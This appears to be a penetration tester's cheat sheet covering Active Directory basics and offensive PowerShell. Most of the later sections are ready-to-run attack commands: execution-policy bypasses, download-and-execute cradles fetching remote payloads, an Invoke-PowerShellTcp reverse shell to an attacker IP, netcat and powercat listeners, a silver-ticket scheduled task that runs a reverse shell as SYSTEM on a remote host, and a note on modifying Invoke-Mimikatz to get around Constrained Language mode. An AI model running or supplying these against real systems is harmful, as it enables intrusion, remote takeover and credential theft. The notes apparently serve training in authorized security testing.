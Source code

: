 # AD - Basics & PowerShell Basics

## AD Basics

* Components of AD
  * Shema - Defines objects and their attributes
  * Query and index mechanisem
  * Global catalog - Information about every object
  * Replication service - Distributes information accross domain controllers
* A forest - which is a security boundary - may contain multiple domains and each domain may contain multiple Ous

### How to interact with Active Directory

* \[ADSI]
* .NET Classes (System.DirectoryServices.ActiveDirectoryy)
* Native Executables (like net….)
* PowerShell (.NET classes and WMI)

## Powershell Basics

With PowerShell Scripts you can use cmdlets, native commands, functions, .net, dlls, Windows API

### Help Command

```powershell
Get-Help * - Lists everything abtout the help topic
Get-Help process (lists everything which contains the word process)
Update-Help - Update the healp system (v3+)
Get-help cmdlet_name -Full - List full help about a topic
Get-Help cmdlet_name -Examples
Get-command -CommandType cmdlet - List all cmdlets
```

**Use this parameter to not print errors powershell**\
****-ErrorAction SilentlyContinue

**Rename powershell windows**\
****$host.ui.RawUI.WindowTitle = "name"&#x20;

### Execute

It is NOT a security boundary

<pre class="language-powershell"><code class="lang-powershell">Powershell -exectionpolicy bypass
<strong>powershell -ep bypass
</strong>Powershell -c &#x3C;cmd>
Powersehll -encodedcommand $env:PSExecutionPolicyPreference="bypass"
</code></pre>

### Language Mode & AppLocker

**Display current language mode**

$executioncontext.sessionstate.languagemode

Constrained Language mode is the restriction of types which are not safe/disallowed in constrained language mode. E.g. .Net Classes,\
cdOnly Built-In Commandlets can be used and types/classes etc. are restricted\
Can be configured via AppLoker or Windows Defender Application Mode in Enforcement mode.

Constrained language mode is only for Powershellv5.1, v7 - if attacker can run Powershellv2 no language mode enforcement is possible.

**Set language mode**

```powershell
$ExecutionContext.SessionState.LanguageMode = 'fulllanguage' ==> Not really possible
```

**Check AppLocker Policy - maybe some excludes form constrained language**

```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
```

**Invoke-mimikatz when Constrained Language mode is in place**

So, we must modify Invoke-Mimikatz.ps1 to include the function call in the script itself and transfer the modified script (Invoke-MimikatzEx.ps1) to the target server.

### Execute .PS1 File / PowerView

{% code overflow="wrap" %}
```powershell
. .\PowerView.ps1
iex(iwr https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1 -UseBasicParsing)
```
{% endcode %}

### Execute AD Module

Download [https://github.com/samratashok/ADModule](https://github.com/samratashok/ADModule)

```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll -Verbose
Import-Module .\ActiveDirectory\ActiveDirectory.psd1
```

{% hint style="info" %}
Most of the AD Modules have the -Filter -Properties and -Identity options!

Get-AD-User -Filter \* -Properties \*\
Get-AD-User -Identity username1 -Properties \*
{% endhint %}

{% code overflow="wrap" %}
```powershell



iex (new-Object Net.WebClient).DownloadString('
https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1');Import-ActiveDirectory

To be able to list all the cmdlets in the module, import the module as well. Remember to import the DLL first.
Import-Module C:\ADModule\Microsoft.ActiveDirectory.Management.dll -Verbose
Import-Module C:\AD\Tools\ADModule\ActiveDirectory\ActiveDirectory.psd1
Get-Command -Module ActiveDirectory
```
{% endcode %}

### Import Modules / Execute

**Import a module/file**

```powershell
Import-Module <modulepath>
```

**List all commands of a module**

```powershell
Get-Command -Module <modulename>
```

\
**Display Loaded functions**\
ls function:

### Download and execute PowerShell Scripts

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell">powershell iex (iwr -UseBasicParsing http://ip/Invoke-PowerShellTcp.ps1); Power -Reverse -IPAddress ip -Port 443 
<strong>
</strong><strong>iex (New-Object Net.WebClient).DownloadString('https://webserver/pay.ps1') - Invoke Expression (iex alias)
</strong></code></pre>

#### &#x20;**Use a COM Object**

{% code overflow="wrap" %}
```powershell
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('https://webserver/pay.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
{% endcode %}

#### **PSv3 or newer**

{% code overflow="wrap" %}
```powershell
i Iex (iwr '
http://websever/ps.ps1') -iwr is alias for invoke-web request
 $h=New-Object -ComObject
Msxml2.xmlhttp;$h.open('GET','http://webserver/ps.ps1',$fasle);$h.send();iex $h.responseText
$wr = [System.NET.WebRequest]::Create("http://werbser.ps.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
{% endcode %}

**Invoke\_PowerShellTCP.ps1**

Add line at the end of the script:\
Invoke-PowershellTcp -Reverse -IPAddress attackersIP -Port port

## Start Netcat Listener (for e.g. Invoke\_powerShellTcp.ps1)

.\netcat-win32-1.12\nc64.exe -lvp 443

## Other

**Display/delete Kerberos Tickets**\
****klist\
klist purge

**List tasks**\
schtasks /S hostname.dom.local

**Schedudle an execute a task with silver ticket of "HOST" Service**&#x20;

{% code overflow="wrap" %}
```powershell
schtasks /create /S hostname.dom.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (new-object net.webclient).DownloadString(''http://ip/Invoke_powerShellTcp.ps1''')'" 
schtasks /Run /S hostname.dom.local /TN "STCheck"
```
{% endcode %}

**Start listener**\
****. .\powercat.ps1\
powercat -l -v -p 443 -t 1000\
&#x20; When connected press a few times enter

**HFS Webserver tool**\
****Drag & drop files in window to host it

**List tasks**\
tasklist /v

**Display Environment variable in Powershell**

```
Get-ChildItem -Path Env:
```





